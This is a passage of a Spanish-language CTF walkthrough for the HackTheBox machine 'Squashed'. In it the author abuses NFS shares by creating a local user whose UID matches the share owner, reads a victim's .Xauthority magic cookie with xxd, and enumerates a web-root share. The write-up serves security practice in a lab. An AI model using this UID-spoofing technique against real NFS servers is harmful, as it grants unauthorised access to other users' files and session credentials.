 ```bash
drwxr-xr-x 1001 1001 4.0 KB Fri Oct 21 16:57:01 2022  Videos
lrwxrwxrwx root root   9 B  Thu Oct 20 15:24:01 2022  .bash_history ⇒ /dev/null
lrwxrwxrwx root root   9 B  Fri Oct 21 15:07:10 2022  .viminfo ⇒ /dev/null
.rw------- 1001 1001  57 B  Sun Feb 16 00:09:04 2025  .Xauthority
.rw------- 1001 1001 2.4 KB Sun Feb 16 00:09:05 2025  .xsession-errors
.rw------- 1001 1001 2.4 KB Tue Dec 27 16:33:41 2022 󰁯 .xsession-errors.old
```

### Abusing owners assigned to NFS shares by creating new users on the system (Get Access to Web Root)

Al intentar acceder al archivo **.Xauthority** con nuestro usuario normal de Kali, recibimos un error de permiso denegado, lo que impide visualizar su contenido en este momento.

```bash
❯ xxd .Xauthority
xxd: .Xauthority: Permission denied
```

En este caso, procedimos a crear un nuevo usuario, **gzzcoo**, y nos cambiamos a su cuenta para explorar el sistema. Al intentar ver el contenido del archivo **.Xauthority**, conseguimos visualizar datos que indican que está relacionado con el sistema de autenticación **MIT-MAGIC-COOKIE**, lo que podría ser útil para futuras pruebas, posiblemente relacionadas con la escalada de privilegios. Sin embargo, no se extrajo información relevante de inmediato.

```bash
❯ sudo useradd gzzcoo
❯ sudo su gzzcoo -c bash
gzzcoo@kali:/mnt/ross$ ls -l
total 32
drwxr-xr-x 2 gzzcoo gzzcoo 4096 oct 21  2022 Desktop
drwxr-xr-x 2 gzzcoo gzzcoo 4096 oct 21  2022 Documents
drwxr-xr-x 2 gzzcoo gzzcoo 4096 oct 21  2022 Downloads
drwxr-xr-x 2 gzzcoo gzzcoo 4096 oct 21  2022 Music
drwxr-xr-x 2 gzzcoo gzzcoo 4096 oct 21  2022 Pictures
drwxr-xr-x 2 gzzcoo gzzcoo 4096 oct 21  2022 Public
drwxr-xr-x 2 gzzcoo gzzcoo 4096 oct 21  2022 Templates
drwxr-xr-x 2 gzzcoo gzzcoo 4096 oct 21  2022 Videos
gzzcoo@kali:/mnt/ross$ xxd .Xauthority 
00000000: 0100 000c 7371 7561 7368 6564 2e68 7462  ....squashed.htb
00000010: 0001 3000 124d 4954 2d4d 4147 4943 2d43  ..0..MIT-MAGIC-C
00000020: 4f4f 4b49 452d 3100 1059 3341 81a6 39b1  OOKIE-1..Y3A..9.
00000030: c20f c710 ee86 eb84 a5                   .........
gzzcoo@kali:/mnt/ross$ 
```

Al realizar una búsqueda en el directorio **/mnt/html**, verificamos que el propietario del directorio raíz es **www-data**, y el grupo asignado tiene el identificador **2017**. Sin embargo, encontramos que el acceso a varios subdirectorios como **index.html**, **images**, **css**, y **js** está restringido debido a permisos denegados.

```bash
❯ find /mnt/html -ls
   133456      4 drwxr-xr--   5 2017     www-data     4096 feb 16 00:30 /mnt/html
find: ‘/mnt/html/index.html’: Permiso denegado
find: ‘/mnt/html/images’: Permiso denegado
find: ‘/mnt/html/css’: Permiso denegado
find: ‘/mnt/html/js’: Permiso denegado
```
